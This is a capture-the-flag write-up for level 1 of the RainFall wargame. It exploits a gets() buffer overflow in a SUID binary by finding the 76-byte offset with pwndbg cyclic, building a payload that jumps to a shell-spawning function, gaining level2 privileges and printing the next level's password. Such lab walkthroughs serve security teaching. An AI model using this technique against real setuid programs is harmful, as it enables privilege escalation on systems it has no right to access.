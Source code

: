 # Walkthrough for Level 1

## Overview

`level1` is a SUID binary owned by `level2`, so it runs with `level2`'s permissions when executed by any user.

```shell
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Understanding the Binary

After decompiling the `level1` binary with [Ghidra](https://github.com/NationalSecurityAgency/ghidra), we find two
functions: `main` and `run`.

The `main` function gets user input using the `gets` function and stores it in a buffer of 76 bytes. Since `gets` does
not check the length of the input, this program is vulnerable to a buffer overflow attack.

The `run` function spawns a shell and, since the SETUID is set for this binary, and it belongs to `level2`, the shell
will run with the `level2` privileges. However, the `fun` function is never called directly in our regular program flow.
We need to overwrite the return address of the `main` function with the address of the `run` function to execute it.
To do this, we need to craft an input that fills the buffer and then overwrites the return address of `main` with the
address of the `run` function.

## Finding the Address of `run`

We get the address of the `run` function using GDB; in this case, it is 0x08048444.

```shell
level1@RainFall:~$ gdb ./level1 
...SNIP...
(gdb) info fun
All defined functions:

Non-debugging symbols:
0x080482f8  _init
...SNIP...
0x08048444  run
0x08048480  main
...SNIP...
```

## Calculating the Instruction Pointer Offset

[Pwndbg](https://github.com/pwndbg/pwndbg) is a Python module that adds useful utilities and enhancements to GDB and
LLDB, making these debuggers easier to use. 
Inside we find `Pwn cyclic` which is a tool used to identify the exact location of a buffer overflow.

It works by generating a sequence of unique patterns, which can be inputted into a program. Once the buffer overflow is
achieved, the crash dump will contain part of this unique pattern. By analyzing the crash dump, we can pinpoint the
exact offset where the buffer overflow occurred.

```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ gdb ./level1       
...SNIP...
pwndbg> cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
pwndbg> run
Starting program: /home/kali/rainfall/level1/level1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────────────────────────────────
 EAX  0xffffd1c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EBX  0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
 ECX  0xf7f9b8ec (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x80484a0 (__libc_csu_init) ◂— push ebp
 EBP  0x61616173 ('saaa')
 ESP  0xffffd210 ◂— 0
 EIP  0x61616174 ('taaa')
...SNIP...
```

The register we are interested in is the EIP (Extended Instruction Pointer) register, which contains the address of the
next instruction to be executed. We see that the EIP register contains the value 'taaa'. Using the cyclic -l command, we
can find the offset in the cyclic pattern that corresponds to this value. In this case, the offset is 76 bytes.

```shell
pwndbg> cyclic -l taaa
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
```

## Crafting the Payload

We use Python to create a payload consisting of 76 'A's followed by the address of the `run` function in little-endian
format, with the intention of overwriting the EIP register and redirecting the program flow to the `run` function.
We save the result to the file `/tmp/payload`.

```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ python2 -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload 
```

## Executing `run` function

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `run` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `id` command to verify that
the shell is running as the `level2` user. 

```shell
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
```

## Getting the Password

Finally, we can read the `.pass` file of `level2` to complete the level.

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We can now log in via SSH as the `level2` user using the password we just found.
